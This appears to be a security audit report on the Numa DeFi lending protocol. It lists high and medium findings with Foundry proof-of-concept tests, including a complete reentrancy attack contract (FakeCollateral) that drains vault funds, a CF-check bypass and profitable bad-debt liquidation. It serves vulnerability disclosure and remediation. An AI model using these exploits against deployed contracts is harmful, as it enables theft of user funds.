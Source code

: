 # Issue H-1: CNumaToken.leverageStrategy() can be re-entered, causing all the vault funds to be moved to a cToken, crashing NUMA price. 

Source: https://github.com/sherlock-audit/2024-12-numa-audit-judging/issues/39 

## Found by 
Vidus, jokr, juaan

### Summary

[`CNumaToken.leverageStrategy()`](https://github.com/sherlock-audit/2024-12-numa-audit/blob/ae1d7781efb4cb2c3a40c642887ddadeecabb97d/Numa/contracts/lending/CNumaToken.sol#L141) has a `_collateral` token parameter which allows an attacker to pass in a custom `_collateral` token, which acts as a wrapper around the actual collateral token, while also receiving callbacks to enable reentrancy. 

This allows the flash loan repayment to be avoided, causing a large chunk of the vault's fund to be stuck in the cNuma contract, severely dumping the NUMA price.

### Root Cause

Allowing the user to pass in the `_collateral` token enables reentrancy, allowing them to call `leverageStrategy()` again. Then when `repayLeverage()` is called in the reentrant call, the `leverageDebt` in the vault is set to `0`, even though the first call still has not repaid it's leverageDebt.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

This exact attack is shown in the PoC. It involves a specially crafted `FakeCollateral` contract which is a wrapper around the underlying collateral, which ensures that the attack does not revert.

1. Attacker calls `cNuma.leverageStrategy()`, with `_collateral=FakeCollateral`, and a large `_borrowAmount`
2. The FakeCollateral contract re-enters the `cNuma` contract, calling `leverageStrategy()` again, with a small `_borrowAmount`
3. The reentrant call to `leverageStrategy()` finishes by calling `vault.repayLeverage()` which sets `leverageDebt` to `0`.
4. Since `leverageDebt` is equal to `0`, when it comes time for the initial `leverageStrategy()'s borrow to be repaid, none will be repaid. This causes the entire borrowed funds to be stuck in cNuma.

### Impact

Large amounts of LST can be pulled from the vault into the `CNuma` contract. This dumps the NUMA price since it depends on the ETH balance of the vault. These LSTs will be permanently lost and stuck.

### PoC

The PoC demonstrates moving 10% of the vault's funds into the cNuma contract where it can't be retrieved.

Add the foundry test to `Lending.t.sol`
```solidity
function test_reentrancy_leverageStrategy() public {
        vm.startPrank(userA);
        address[] memory t = new address[](2);
        t[0] = address(cReth);
        t[1] = address(cNuma);
        comptroller.enterMarkets(t);

        // mint cNuma so that we can borrow numa later
        uint depositAmount = 9e24;
        numa.approve(address(cNuma), depositAmount);
        cNuma.mint(depositAmount);

        // To be used as collateral to borrow NUMA
        deal(address(rEth), userA, 1e24 + providedAmount);
        rEth.approve(address(cReth), 1e24);
        cReth.mint(1e24);

        uint256 vaultRethBefore = rEth.balanceOf(address(cNuma.vault()));
        uint reth_in_cNuma = rEth.balanceOf(address(cNuma));

        rEth.approve(address(cNuma), providedAmount);

        // Setting up fake collateral token (which interacts with rETH)
        FakeCollateral fake_cReth = new FakeCollateral(address(cReth), address(rEth), userA, comptroller);

        // Sending it a tiny amount of cReth, so it can re-enter cNuma.leverageStrategy()
        cReth.transfer(address(fake_cReth), 5e10 / 2);

        // call strategy
        uint256 borrowAmount = 1e24;

        uint strategyindex = 0;
        cNuma.leverageStrategy(
            providedAmount,
            borrowAmount,
            CNumaToken(address(fake_cReth)),
            strategyindex
        );

        // check balances
        // cnuma position
        uint256 vaultRethAfter = rEth.balanceOf(address(cNuma.vault()));
        uint reth_in_cNuma_After = rEth.balanceOf(address(cNuma));
        
        // Shows that the rETH balance of the cNuma token contract has gone up by `borrowAmount` (since flash loan was not repaid)
        console.log("cNUMA rETH balance: %e->%e (stuck funds)", reth_in_cNuma, reth_in_cNuma_After);
        assertEq(reth_in_cNuma_After - reth_in_cNuma, borrowAmount);
    }
```

Also add the following attack contract to a new file `FakeCollateral.sol` in the same directory as `Lending.t.sol`
<details><summary>Attack contract</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import "forge-std/console.sol";
import "@openzeppelin/contracts_5.0.2/token/ERC20/ERC20.sol";

import {IUniswapV3Pool} from "@uniswap/v3-core/contracts/interfaces/IUniswapV3Pool.sol";
import "@uniswap/v3-core/contracts/libraries/FullMath.sol";

import "@uniswap/v3-core/contracts/libraries/FixedPoint96.sol";
import "./uniV3Interfaces/ISwapRouter.sol";

import {NumaComptroller} from "../lending/NumaComptroller.sol";

import {NumaLeverageLPSwap} from "../Test/mocks/NumaLeverageLPSwap.sol";

import "../lending/ExponentialNoError.sol";
import "../lending/INumaLeverageStrategy.sol";
import "../lending/CToken.sol";
import "../lending/CNumaToken.sol";

import {Setup} from "./utils/SetupDeployNuma_Arbitrum.sol";

import {console} from "forge-std/console.sol";
contract FakeCollateral {

    CNumaToken actualCollateral;
    ERC20 actualUnderlying;
    address public user;

    bool entered = false;
    NumaComptroller comptroller;
    constructor(address _actualCollateral, address _underlying, address _user, NumaComptroller _comptroller) {
        actualCollateral = CNumaToken(_actualCollateral);
        actualUnderlying = ERC20(actualCollateral.underlying());
        user = _user;
        comptroller = _comptroller;

        address[] memory t = new address[](1);
        t[0] = address(actualCollateral);
        comptroller.enterMarkets(t);
    }

    function underlying() external view returns(address) {
        return address(actualUnderlying);
    }

    function accrueInterest() public returns (uint) {
        return 0;
    }
    
    function mint(uint256 amt) external returns (uint) {
        actualUnderlying.transferFrom(msg.sender, address(this), amt);
        actualUnderlying.approve(address(actualCollateral), amt);

        uint256 balanceBefore = actualCollateral.balanceOf(address(this));
        actualCollateral.mint(amt);
        uint256 balanceAfter = actualCollateral.balanceOf(address(this));

        if (balanceAfter - balanceBefore > 0) {
             // transfer most of it to the user
             console.log("transferring %e cTokens to user", balanceAfter - balanceBefore - 1 wei);
            actualCollateral.transfer(user, balanceAfter - balanceBefore - 1 wei);
        }
       
        // transfer 1 wei to msg.sender to prevent revert
        actualCollateral.transfer(msg.sender, 1 wei);

    }

    function transfer(address to, uint amt) external returns(bool truth){
        // re-enter for another leverage play

        if (!entered) {
            entered = true;

            CNumaToken(msg.sender).leverageStrategy(0, 1e15, CNumaToken(address(this)), 0);
            return true;
        }
        return true;
    }

    function balanceOf(address addy) public view returns(uint) {
        return actualCollateral.balanceOf(addy);
    }
    

}
```

### Mitigation

_No response_

# Issue H-2: Vault is vulnerable to inflation attack which can cause complete loss of user funds 

Source: https://github.com/sherlock-audit/2024-12-numa-audit-judging/issues/253 

## Found by 
0xlucky, Abhan1041, AestheticBhai, KupiaSec, Oblivionis, ZZhelev, blutorque, jokr, juaan, novaman33, smbv-1923

### Summary

Attacker can attack the first depositors in the vault and can steal all users funds. this attack is also famously known has first deposit bug too. while doing this attack , there is no loss of attacker funds, but there is complete loss of user funds. he can complete this attack by front running and then backrunning , means sandwiching user funds. this problem takes place , due to improper use of exchange rate when total supply is 0. 

### Root Cause

https://github.com/sherlock-audit/2024-12-numa-audit/blob/main/Numa/contracts/lending/CErc20.sol#L60C1-L63C6

https://github.com/sherlock-audit/2024-12-numa-audit/blob/main/Numa/contracts/lending/CToken.sol#L510C1-L515C1

here root cause is total cash in formula is being calculated with balanceOF(address(this)), which can donated direclty too. and price can be inflated

### Internal pre-conditions

_No response_

### External pre-conditions

In this attack , attacker should be the first depositor,  and while deploying on ethereum, he can frontrun and can be the first depositor. 

### Attack Path

while depositing when , total supply of minting token is 0, attacker will deposit , 1 wei of asset and will be minted with 1 wei of share.

so now total supply would be 1 wei. 

now , he will wait for the first depositor , lets say first depsoit is 5e18 , and attacker will directly donates more than that amount , and now user tx would take place, but in result he will be minted with 0 shares , due to inflation in share price.

he can now, redeem his 1 wei of share, and in return he can get all amount of asset( donated+ 1 wei + user deposited)

https://github.com/sherlock-audit/2024-12-numa-audit/blob/main/Numa/contracts/lending/CToken.sol#L374C4-L401C6

in link we can see the formula which is being used for exchangerate.

### Impact

this can lead user loss of funds, and attacker will get benefited from this.

### PoC

_No response_

### Mitigation

1000 wei ( some amount)  shares should be burned while first depositing. this is done by uniswap too

# Issue M-1: Debasing/rebasing periods can be decreased by 50% by a malicious actor 

Source: https://github.com/sherlock-audit/2024-12-numa-audit-judging/issues/18 

## Found by 
000000

### Vulnerability Detail

Upon debasing, we have the following calculation:
```solidity
uint ndebase = ((blockTime - lastBlockTime) * debaseValue) / (deltaDebase);
```
If the time passed is less than 4320, we round down to 0 (`debaseValue is 20` and `deltaDebase` is 24 hours). However, there is the following check to handle such round downs:
```solidity
                if (ndebase <= 0) {
                    // not enough time has passed to get some debase, so we reset our time reference
                    blockTime = lastBlockTime;
                }
```
It resets the time to the last block time before the update. However, this can still be abused by a malicious actor by instead rounding to 1. It can also happen during normal conditions by users simply interacting with the protocol at certain times.
### Attack Path

1. Malicious user calls `VaultManager.getSynthScalingUpdate()` or any other block time state updating function every $4320 * 2 - 1$ seconds
2. The `ndebase` will equal $(4320 * 2 - 1) * 20 / 86400 = 1,9997685185$ which rounds down to 1
3. Instead of 2 debasing periods, there will only be 1 which causes the protocol to debase much slower than supposed to, which would keep the CF low and cause huge issues for the protocol
### Impact

Synthetics will derate slower than intended, which will keep the CF low as users are not incentivized to sell them
### Mitigation

Refactor the formula

# Issue M-2: OracleUtils.ethLeftSide() is not correct for some tokens, leading to incorrect nuAsset pricing 

Source: https://github.com/sherlock-audit/2024-12-numa-audit-judging/issues/38 

## Found by 
juaan

### Summary

[`OracleUtils::ethLeftSide()`](https://github.com/sherlock-audit/2024-12-numa-audit/blob/ae1d7781efb4cb2c3a40c642887ddadeecabb97d/Numa/contracts/libraries/OracleUtils.sol#L261-L270) is used to check whether ETH is in the numerator or the denominator of the price feed, in order to correctly price the paired asset.

The check is implemented incorrectly, causing incorrect pricing of assets in some cases.

### Root Cause

The function [`OracleUtils::ethLeftSide()`](https://github.com/sherlock-audit/2024-12-numa-audit/blob/ae1d7781efb4cb2c3a40c642887ddadeecabb97d/Numa/contracts/libraries/OracleUtils.sol#L261-L270) checks the first 3 characters of the pricefeed’s description string, and checks if they are “ETH”. If so, it assumes that the numerator is ETH. 

The issue is that there are assets which have “ETH” as the first 3 characters, but are not ETH. An example is the LST, Stader ETHx. 

It has a [price feed on Arbitrum Mainnet](https://data.chain.link/feeds/arbitrum/mainnet/ethx-eth-exchange-rate), denominated in ETH, with the description string “ETHx/ETH”.

Even though ETH is on the right side, the `ethLeftSide()` function will return `true`, which is incorrect.

This causes the asset to be priced incorrectly in the `NumaPrinter`, since it assumes that the asset is ETH.

Note: the protocol team has [stated](https://discord.com/channels/812037309376495636/1315694506754048023/1318110286372409415):
> This **should be able to theoretically mint any asset with a chainlink (18 decimals)**, including RWA assets.

> This could be assets like currencies (nuUSD, nuEUR, etc), commodities (nuGOLD, nuOIL, etc), **other cryptocurrencies** (nuETH, nuBTC), and stocks (nuTSLA, nuNVDA, etc)

### Internal pre-conditions

An asset like ETHx is used as a nuAsset

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

nuAssets can be priced incorrectly in some cases

### PoC

_No response_

### Mitigation

Check the first 4 bytes of the pricefeed's description string, and return true only if the first 4 bytes are the same as “ETH/”
This ensures that the function is always correct

# Issue M-3: CF minimum can be bypassed when minting nuAssets 

Source: https://github.com/sherlock-audit/2024-12-numa-audit-judging/issues/41 

## Found by 
juaan

### Summary

CF is checked before minting nuAssets (instead of after), allowing CF to be massively decreased past the warning. This allows assets to be minted even past the critical CF of 110%, breaking the invariant stated in the README. 

[`NumaPrinter.mintNuAsset()`](https://github.com/sherlock-audit/2024-12-numa-audit/blob/ae1d7781efb4cb2c3a40c642887ddadeecabb97d/Numa/contracts/NumaProtocol/NumaPrinter.sol#L179) has the `notInWarningCF` modifier

```solidity
modifier notInWarningCF() {
	  uint currentCF = vaultManager.getGlobalCF();
	  require(currentCF > vaultManager.getWarningCF(), "minting forbidden");
	  _;
}
```

Invariant stated in the README is bypassed:

> New synthetics cannot be minted when CFTHEORETICAL < 110%, where CFTHEORETICAL = rETH_accountingBalance / synthetic_rETHdebt.


### Root Cause

The modifier checks the CF before the minting of the nuAssets.

This means that a user can mint a large number of nuAssets to effectively minting past the warning CF.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

_No response_

### PoC

The PoC shows that the CF goes from `1e5` to  `1.0527e4` during the mint, while the warning CF is `9.9999e4`, so the warning CF has been bypassed, and assets have effectively been minted past the warning CF which should not be allowed. 

Add the test to `Printer.t.sol`
```solidity
function test_mintPastCF() public {
    uint numaAmount = 1000001e18;

    vm.startPrank(deployer);
    numa.transfer(userA, numaAmount);
    vm.stopPrank();
    
    vm.startPrank(userA);

    // compare getNbOfNuAssetFromNuma
    (uint256 nuUSDAmount, uint fee) = moneyPrinter.getNbOfNuAssetFromNuma(
        address(nuUSD),
        numaAmount
    );
    numa.approve(address(moneyPrinter), numaAmount);

    // warning cf test block mint
    uint globalCFBefore = vaultManager.getGlobalCF();


    // put back warning cf
    vm.startPrank(deployer);
    vaultManager.setScalingParameters(
        vaultManager.cf_critical(),
        globalCFBefore - 1,
        vaultManager.cf_severe(),
        vaultManager.debaseValue(),
        vaultManager.rebaseValue(),
        1 hours,
        2 hours,
        vaultManager.minimumScale(),
        vaultManager.criticalDebaseMult()
    );

    console.log("globalCFBefore: %e", globalCFBefore);
    console.log("warningCF: %e", vaultManager.getWarningCF());

    vm.startPrank(userA);

    // slippage ok
    moneyPrinter.mintAssetFromNumaInput(
        address(nuUSD),
        numaAmount,
        nuUSDAmount,
        userA
    );

    uint globalCFAfter = vaultManager.getGlobalCF();
    uint warningCF = vaultManager.getWarningCF();

    console.log("globalCFAfter: %e", globalCFAfter);
    console.log("warningCF: %e", warningCF);

    assertGt(globalCFBefore, warningCF);
    assertLt(globalCFAfter, warningCF);
}
```

### Mitigation

Update the modifier in the following way:

```diff
modifier notInWarningCF() {
+	  _;
	  uint currentCF = vaultManager.getGlobalCF();
	  require(currentCF > vaultManager.getWarningCF(), "minting forbidden");
-	  _;
}
```

This ensures that the CF is checked after minting the nuAssets, so it can't be bypassed.

## Discussion

**tibthecat**

Not sure about that one. Needs to check with team. The goal is to block minting when CF has already reached WarningCF, not to prevent from reaching this warningCF. 
Will check with team, but my current opinion is that it's invalid.



# Issue M-4: No RWAs have a chainlink feed in ETH, so RWAs cannot be minted as nuAssets 

Source: https://github.com/sherlock-audit/2024-12-numa-audit-judging/issues/53 

## Found by 
juaan

### Summary

A key intention of the protocol is to allow RWAs with chainlink feeds to be represented with synthetic nuAssets.

The issue is that the protocol only works with chainlink feeds where the asset is priced with ETH.

All the RWAs like gold, oil, etc on chainlink are only available with USD pairs, not ETH.

### Root Cause

The protocol only works with chainlink feeds where the asset is priced with ETH, but all the RWAs like gold, crude oil, etc on chainlink are only available with USD pairs, not ETH.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

Protocol in it's current form cannot work with RWAs. 

### PoC

_No response_

### Mitigation

Have a way to convert the ASSET/USD pairs into ASSET/ETH using the ETH/USD price feed.

# Issue M-5: Deprecated markets allow profitable exploitation of bad debt liquidations 

Source: https://github.com/sherlock-audit/2024-12-numa-audit-judging/issues/67 

## Found by 
t0x1c

## Summary
When markets are deprecated in the protocol, bad debt positions can be liquidated using regular liquidation functions instead of the dedicated bad debt liquidation path. This bypasses important safeguards and allows liquidators to extract a profit, worsening the protocol's position even further.

**_It's important to note_** that in a deprecated market even a healthy borrow position can be liquidated. That situation _could_ be attributed to user error as it may be reasonable to assume that the protocol would give enough prior warnings of the event so that users can close their positions & withdraw their deposits. 
BadDebt borrowers however would've no such incentive to close their position and hence the current vulnerability exists, exacerbating the harm to the protocol health.

## Description
The protocol provides two distinct liquidation paths:

1. Regular liquidation - Used for positions with shortfall but sufficient collateral value. This provides liquidators with a [liquidation incentive multiplier](https://github.com/NumaMoney/Numa/blob/c6476d828f556967e64410b5c11c1f2cd77220c7/contracts/lending/NumaComptroller.sol#L1489) on the collateral they receive:
```js
    function liquidateCalculateSeizeTokens(
        address cTokenBorrowed,
        address cTokenCollateral,
        uint actualRepayAmount
    ) external view returns (uint, uint) {
        ....
        ....

        /*
         * Get the exchange rate and calculate the number of collateral tokens to seize:
@--->    *  seizeAmount = actualRepayAmount * liquidationIncentive * priceBorrowed / priceCollateral
         *  seizeTokens = seizeAmount / exchangeRate
         *   = actualRepayAmount * (liquidationIncentive * priceBorrowed) / (priceCollateral * exchangeRate)
         */

        ....
        ....
    }
```

2. Bad debt liquidation - Used when collateral value is less than the borrowed amount. This uses a simpler [percentage-based calculation](https://github.com/NumaMoney/Numa/blob/c6476d828f556967e64410b5c11c1f2cd77220c7/contracts/lending/NumaComptroller.sol#L1458) with **no additional** `liquidationIncentive`:
```js
    function liquidateBadDebtCalculateSeizeTokensAfterRepay(
        address cTokenCollateral,
        address borrower,
        uint percentageToTake
    ) external view override returns (uint, uint) {
        /*
         * Get the exchange rate and calculate the number of collateral tokens to seize:
         * for bad debt liquidation, we take % of amount repaid as % of collateral seized
         *  seizeAmount = (repayAmount / borrowBalance) * collateralAmount
         *  seizeTokens = seizeAmount / exchangeRate
         *
         */

        (, uint tokensHeld, , ) = CToken(cTokenCollateral).getAccountSnapshot(
            borrower
        );
@--->   uint seizeTokens = (percentageToTake * tokensHeld) / (1000);
        return (uint(Error.NO_ERROR), seizeTokens);
    }
```


However, when a market is deprecated (collateralFactor = 0, borrowing paused, reserveFactor = 100%), the code only checks this inside [liquidateBorrowAllowed()](https://github.com/NumaMoney/Numa/blob/c6476d828f556967e64410b5c11c1f2cd77220c7/contracts/lending/NumaComptroller.sol#L579-L583):
```js
        if (isDeprecated(CToken(cTokenBorrowed))) {
            require(
@--->           borrowBalance >= repayAmount,
                "Can not repay more than the total borrow"
            );
        }
```

The liquidator has no need to go through a path which internally calls [liquidateBadDebtAllowed()](https://github.com/NumaMoney/Numa/blob/c6476d828f556967e64410b5c11c1f2cd77220c7/contracts/lending/NumaComptroller.sol#L620).
This allows bad debt positions to be liquidated using the regular liquidation path (via `liquidateNumaBorrower()` or `liquidateLstBorrower()`) that includes the liquidation incentive multiplier. Thus liquidator can provide a lower `repayAmount` than the collateral is worth and end up receiving a profit, worsening the protocol's health even further.

## Proof of Concept
Run the following test with `FOUNDRY_PROFILE=lite forge test --mt test_deprecatedMarketLiquidation -vv` to see the following output:
<details>
<summary>
Click to view
</summary>

1. First, add a console statement inside `liquidateLstBorrower()` for easier monitoring:
```diff
    function liquidateLstBorrower(
        address _borrower,
        uint _lstAmount,
        bool _swapToInput,
        bool _flashloan
    ) external whenNotPaused notBorrower(_borrower) {
        // < existing code... >
        ...
        ...

        if (_swapToInput) {
            // sell numa to lst
            uint lstReceived = NumaVault(address(this)).sell(
                receivedNuma,
                lstAmount,
                address(this)
            );

            uint lstLiquidatorProfit = lstReceived - lstAmount;

            // cap profit
            if (lstLiquidatorProfit > maxLstProfitForLiquidations)
                lstLiquidatorProfit = maxLstProfitForLiquidations;

            uint lstToSend = lstLiquidatorProfit;
            if (!_flashloan) {
                // send profit + input amount
                lstToSend += lstAmount;
            }
            // send profit
            SafeERC20.safeTransfer(IERC20(lstToken), msg.sender, lstToSend);
        } else {
            uint numaProvidedEstimate = vaultManager.tokenToNuma(
                lstAmount,
                last_lsttokenvalueWei,
                decimals,
                criticalScaleForNumaPriceAndSellFee
            );
            uint maxNumaProfitForLiquidations = vaultManager.tokenToNuma(
                maxLstProfitForLiquidations,
                last_lsttokenvalueWei,
                decimals,
                criticalScaleForNumaPriceAndSellFee
            );

            uint numaLiquidatorProfit;
            // we don't revert if liquidation is not profitable because it might be profitable
            // by selling lst to numa using uniswap pool
            if (receivedNuma > numaProvidedEstimate) {
                numaLiquidatorProfit = receivedNuma - numaProvidedEstimate;
            }

            uint vaultProfit;
            if (numaLiquidatorProfit > maxNumaProfitForLiquidations) {
                vaultProfit =
                    numaLiquidatorProfit -
                    maxNumaProfitForLiquidations;
            }
+           console2.log("\n Liquidator's NUMA Profit =", (numaLiquidatorProfit - vaultProfit) / 1e18, "ether");
            uint numaToSend = receivedNuma - vaultProfit;
            // send to liquidator
            SafeERC20.safeTransfer(
                IERC20(address(numa)),
                msg.sender,
                numaToSend
            );

            // AUDITV2FIX: excess vault profit numa is burnt
            if (vaultProfit > 0) numa.burn(vaultProfit);
        }
        endLiquidation();
    }
```

2. Now add this test inside `Vault.t.sol`:
```js
    function test_deprecatedMarketLiquidation() public {
        uint funds = 100 ether;
        uint borrowAmount = 80 ether; 

        deal({token: address(rEth), to: userA, give: funds * 2});
        
        // First approve and enter the NUMA market
        vm.startPrank(userA);
        address[] memory t = new address[](1);
        t[0] = address(cNuma);
        comptroller.enterMarkets(t);

        // Buy some NUMA
        rEth.approve(address(vault), funds);
        uint numas = vault.buy(funds, 0, userA);

        // Deposit enough NUMA as collateral
        uint cNumaBefore = cNuma.balanceOf(userA);
        numa.approve(address(cNuma), numas);
        cNuma.mint(numas);
        uint cNumas = cNuma.balanceOf(userA) - cNumaBefore;
        emit log_named_decimal_uint("Numas deposited =", numas, 18);
        emit log_named_decimal_uint("cNumas minted   =", cNumas, 18);

        // Borrow rEth
        uint balanceBefore = rEth.balanceOf(userA);
        cReth.borrow(borrowAmount);

        // Get current borrow balance 
        uint borrowBalance = cReth.borrowBalanceCurrent(userA);

        emit log_named_decimal_uint("borrowBalance befor =", borrowBalance, 18); 
        vm.stopPrank();

        vm.startPrank(deployer);
        // make the borrow a bad-debt
        vaultManager.setSellFee(0.5 ether); // 50%
        (, , , uint badDebt) = comptroller.getAccountLiquidityIsolate(userA, cNuma, cReth);
        assertGt(badDebt, 0, "no bad-debt");
        emit log_named_decimal_uint("badDebt   =", badDebt, 18); 

        // deprecate the market
        assertFalse(comptroller.isDeprecated(cReth));
        comptroller._setCollateralFactor(cReth, 0);
        comptroller._setBorrowPaused(cReth, true);
        cReth._setReserveFactor(1e18);
        assertTrue(comptroller.isDeprecated(cReth));
        console2.log("market successfully deprecated");
        vm.stopPrank();

        // liquidate via "shortfall" route instead of "badDebt" route
        vm.startPrank(userB); // liquidator
        uint repay = borrowBalance / 2;
        deal({token: address(rEth), to: userB, give: repay});
        rEth.approve(address(vault), repay);
        vault.liquidateLstBorrower(userA, repay, false, false); // @audit-info : smaller `repay` avoids `LIQUIDATE_SEIZE_TOO_MUCH` by ensuring `seizeTokens < cTokenCollateral`
        console2.log("liquidated successfully");
    }
```

</details>
<br>

Output:
```text
[PASS] test_deprecatedMarketLiquidation() (gas: 1630968)
Logs:
  VAULT TEST
  Numas deposited =: 749432.837569203755749171
  cNumas minted   =: 0.003747164187846018
  borrowBalance befor =: 80.000000000000000000
  badDebt   =: 32.360563278288316029
  market successfully deprecated
  redeem? 0

 Liquidator's NUMA Profit = 78656 ether    <------------- liquidator received profit on a badDebt by calling `liquidateLstBorrower()`
  liquidated successfully
```

## Severity
Impact: High. Worsens the protocol's health even further.

Likelihood: Low/Medium. Requires an event where a market has been deprecated. 

Overall Severity: Medium

## Mitigation
Add a check that even for deprecated markets, regular (shortfall) liquidation path is not allowed for badDebt positions.

## Discussion

**tibthecat**

As discussed in the dashboard, I think it's LOW because protocol could liquidate any bad debt position before deprecating.
But still, it's better for us to fix that and use the liquidatebaddebt path even when market is deprecated.



# Issue M-6: Incorrect liquidation mechanics either causes revert on liquidation due to insufficient seizeTokens or causes transition into bad debt 

Source: https://github.com/sherlock-audit/2024-12-numa-audit-judging/issues/101 

## Found by 
t0x1c

## Summary
The protocol's liquidation mechanics are fundamentally flawed in two distinct ways that emerge when performing liquidations on positions. Either:

1. The protocol reverts on liquidation of remaining debt due to insufficient collateral to seize, **OR**

2. The position transitions into bad debt status after a partial liquidation, making the remaining debt unprofitable for liquidators and worsening protocol's health.

## Description
The protocol has two distinct broken liquidation paths that emerge when liquidating positions:

### Prerequisite
The borrower's LTV should have worsened enough such that if the entire debt were to be liquidated, there wouldn't be enough collateral cTokens to seize after adding the liquidation incentive on top. Or in other words the liquidator would encounter a revert with error `LIQUIDATE_SEIZE_TOO_MUCH` if he tried to liquidate the entire debt.

### Path 1: Insufficient `seizeTokens`--> ( _coded as `test_liquidationMechanics_path01`_ )
In this scenario:

1. Imagine that a position becomes liquidatable (has shortfall but not in badDebt). And the `borrowBalance` is above `minBorrowAmountAllowPartialLiquidation`.

2. A liquidator attempts a liquidation. This _will always be a partial liquidation_ due to one of these 3 reasons:
    a. The [closeFactorMantissa](https://github.com/NumaMoney/Numa/blob/c6476d828f556967e64410b5c11c1f2cd77220c7/contracts/lending/NumaComptroller.sol#L104-L108) setting constraints that `repayAmount` is no more than 90% of the `borrowBalance`, even in the best of scenarios.
    b. Liquidator could choose a partial repayment based on their financial capacity.
    c. Liquidator could maliciously choose a partial repayment in order to carry out this attack.

3. The liquidator is awarded a [liquidationIncentive](https://github.com/NumaMoney/Numa/blob/c6476d828f556967e64410b5c11c1f2cd77220c7/contracts/lending/NumaComptroller.sol#L1487-L1511) (for e.g., 12%) and is able to seize those collateral cTokens from the borrower. 

4. Due to the above, every iteration of partial liquidation worsens the ratio of collateral cTokens to the remaining `borrowBalance` ( LTV increases with each iteration ).

5. Eventually a state is arrived where `borrowBalance` is below `minBorrowAmountAllowPartialLiquidation`. Now [only full liquidations are allowed](https://github.com/NumaMoney/Numa/blob/c6476d828f556967e64410b5c11c1f2cd77220c7/contracts/NumaProtocol/NumaVault.sol#L1135-L1138) and hence every liquidation attempt [will revert with error](https://github.com/NumaMoney/Numa/blob/c6476d828f556967e64410b5c11c1f2cd77220c7/contracts/lending/CToken.sol#L1020-L1024) `LIQUIDATE_SEIZE_TOO_MUCH`. Note that the debt is still not in the badDebt territory and hence `liquidateBadDebt()` can't be called yet which wouldn't have cared about awarding any `liquidationIncentive`.

### Path 2: Transition to Bad Debt--> ( _coded as `test_liquidationMechanics_path02`_ )
In the second scenario:

- Steps 1-4 same as above.

- Step 5: The worsening ratio with each partial liquidation iteration eventually pushes the debt into the badDebt territory where `borrowBalance` is greater than the remaining collateral. Although someone can call `liquidateBadDebt()`, it doesn't really offer any incentive to the liquidator. The protocol is already losing money at this point, even if someone cleans up the remaining borrowed balance.

## Impact
The impact is severe:
1. In Path 1, positions are left with debt that cannot be liquidated due to reverting transactions, leaving the protocol with unclearable bad positions
2. In Path 2, positions transition into bad debt and will now be closed at a loss. The protocol's health is worse than before.

## Proof of Concept
Add the 2 tests inside `Vault.t.sol` and run with `FOUNDRY_PROFILE=lite forge test --mt test_liquidationMechanics -vv` to see them pass:
<details>

<summary>
Click to View
</summary>


```js
    function test_liquidationMechanics_path01() public {
        // Initial setup
        vm.startPrank(deployer);
        vaultManager.setSellFee(1 ether); // no sell fee
        comptroller._setCollateralFactor(cNuma, 0.85 ether); // 85% LTV allowed
        vm.stopPrank();

        uint collateralAmount = 25 ether;
        uint borrowAmount = 20 ether;  // 80% LTV to start

        deal({token: address(rEth), to: userA, give: collateralAmount});
        
        // First approve and enter the NUMA market
        vm.startPrank(userA);
        address[] memory t = new address[](1);
        t[0] = address(cNuma);
        comptroller.enterMarkets(t);

        // Buy NUMA with rETH to use as collateral
        rEth.approve(address(vault), collateralAmount);
        uint numas = vault.buy(collateralAmount, 0, userA);

        // Deposit NUMA as collateral
        uint cNumaBefore = cNuma.balanceOf(userA);
        numa.approve(address(cNuma), numas);
        cNuma.mint(numas);
        uint cNumas = cNuma.balanceOf(userA) - cNumaBefore;
        
        emit log_named_decimal_uint("Numas deposited =", numas, 18);
        emit log_named_decimal_uint("cNumas received =", cNumas, 18);

        // Borrow rETH
        cReth.borrow(borrowAmount);
        uint initialBorrowBalance = cReth.borrowBalanceCurrent(userA);
        emit log_named_decimal_uint("Initial borrow =", initialBorrowBalance, 18);
        (, , uint shortfall, uint badDebt) = comptroller.getAccountLiquidityIsolate(userA, cNuma, cReth);
        assertEq(shortfall, 0, "Unhealthy borrow");
        vm.stopPrank();

        // Make position liquidatable
        vm.startPrank(deployer);
        vaultManager.setSellFee(0.90 ether); 
        
        // Verify position is liquidatable
        (, , shortfall, badDebt) = comptroller.getAccountLiquidityIsolate(userA, cNuma, cReth);
        assertGt(shortfall, 0, "Position should be liquidatable");
        assertEq(badDebt, 0, "Position shouldn't be in badDebt region");
        emit log_named_decimal_uint("Shortfall =", shortfall, 18);

        // Set liquidation incentive
        comptroller._setLiquidationIncentive(1.12e18); // 12% premium
        // Set close factor
        comptroller._setCloseFactor(0.9e18); // 90%
        vm.stopPrank();

        // First liquidation attempt
        vm.startPrank(userC); // liquidator
        uint borrowBalance = cReth.borrowBalanceCurrent(userA);
        uint repayAmount = (borrowBalance * 55) / 100; // repaying 55% of the debt
        
        deal({token: address(rEth), to: userC, give: repayAmount});
        rEth.approve(address(vault), repayAmount);
        
        // This should succeed since there's enough collateral for the first liquidation
        vault.liquidateLstBorrower(userA, repayAmount, false, false);
        emit log_named_decimal_uint("First liquidation repaid =", repayAmount, 18);

